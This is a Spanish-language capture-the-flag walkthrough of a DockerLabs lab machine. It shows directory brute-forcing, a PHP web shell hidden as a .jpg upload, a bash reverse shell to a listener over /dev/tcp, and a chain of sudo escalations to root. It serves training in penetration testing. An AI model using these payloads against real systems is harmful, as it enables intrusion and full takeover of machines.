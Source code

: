 nmap:  80

![image](https://github.com/user-attachments/assets/206a9c1a-9a66-4136-b0f9-050aa3a76ad0)


---
dentro de la pagina podemos ver que nos da un mensaje al abrir el ascensor:

![image](https://github.com/user-attachments/assets/43924d93-9367-4f22-9921-583d71be6e11)

![image](https://github.com/user-attachments/assets/7e847733-9588-4015-94c3-874fb076e3e1)

al hacer una ataque de fuerza bruta a los directorios  nos mostrara un "themes",

      gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,html,txt -k

![image](https://github.com/user-attachments/assets/6b57711b-3b7a-4c5a-9ec9-8278ccd4ea80)


ahora si hacemos otra vez un gobuster pero agregando el "themes" 

      gobuster dir -u http://172.17.0.2/themes -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,html,txt -k


y nos dará algunos importantes

![image](https://github.com/user-attachments/assets/3582ef9d-7e61-442d-80d0-9124e65d5e37)


si ingresamos al primero o sea al uploads nos mandara a una subida de archivos

![image](https://github.com/user-attachments/assets/a369a585-4f64-44ec-aea7-50398bcbd6e1)


como también me dio: archivo.html nos vamos ahí y vemos que podemos subir archivos pero solo archivos JPG

![image](https://github.com/user-attachments/assets/48ab9e59-7a3a-4580-a1df-2d9ba76fd769)


como solo deja subir archivos "jpg" modificamos un archivo 
> nano shell.php.jpg

dentro tendrá este código:

    - <?php system($_GET['cmd']); ?>

vemos que se subió

![image](https://github.com/user-attachments/assets/1e4b7b39-2209-4d3e-97da-5376f04cf198)

 presionamos el archivo que nos muestra y veremos que no hay nada pero en la URL la modificamos para que quede así:
 
   > 172.17.0.2/themes/uploads/675712b70a259.jpg?cmd=whoami

![image](https://github.com/user-attachments/assets/22fedb8d-23f2-4bda-804c-dccda91b64da)

nos mostrara "www-data" o sea que la vulnerabilidad esta, así que modificamos la terminal con una bash y colocamos el terminal en escucha
dejamos la terminal asi:

> 172.17.0.2/themes/uploads/675712b70a259.jpg?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/172.17.0.1/443%200%3E%261%22

![image](https://github.com/user-attachments/assets/aaf0c7df-4b93-4a68-8979-148e56b1defe)


y ahora dentro si hacemos un "sudo -l" vemos que podemos escalar por "env"

![image](https://github.com/user-attachments/assets/bd7d442b-bb52-466c-b636-4a6d759de53d)

la buscamos: https://gtfobins.github.io/gtfobins/env/

como se que hay otros usuarios pobre y funciono el escalado con daphne:
> sudo -u daphne /usr/bin/env /bin/sh

![image](https://github.com/user-attachments/assets/a63fdff9-756f-4517-a349-cffc7e68426f)


y somos el usuario daphne

al hacer sudo -l da: "ash" la buscamos: https://gtfobins.github.io/gtfobins/ash/

ahora lanzamos asi:
> sudo -u vilma /usr/bin/ash

![image](https://github.com/user-attachments/assets/5acab12d-f16d-4bef-b762-c6b0645db515)


y somos vilma

ahora al hacer sudo -l da que es ruby buscamos donde mismo y lanzamos asi:
> sudo -u shaggy /usr/bin/ruby -e 'exec "/bin/sh"'
![[dockerlabs/facil/elevador/usuario3.png]]

ahora somos shaggy y entonces ahora buscamos como escalar y aparece "lua"

lanzamos el comando así:
> sudo -u fred /usr/bin/lua -e 'os.execute("/bin/sh")'

![[usuario4.png]]

somos fred

podemos escalar con gcc y donde mismo buscamos y lanzamos el comando:
> sudo -u scooby /usr/bin/gcc  -wrapper /bin/sh,-s .

![[usuario5.png]]

somos scooby

ahora al hacer sudo -l podemos  ver que se escala por "sudo", modifico  el codigo para que se vea de esta forma:
> sudo -u root /usr/bin/sudo /bin/bash

![[dockerlabs/facil/elevador/root.png]]

y somos root! 
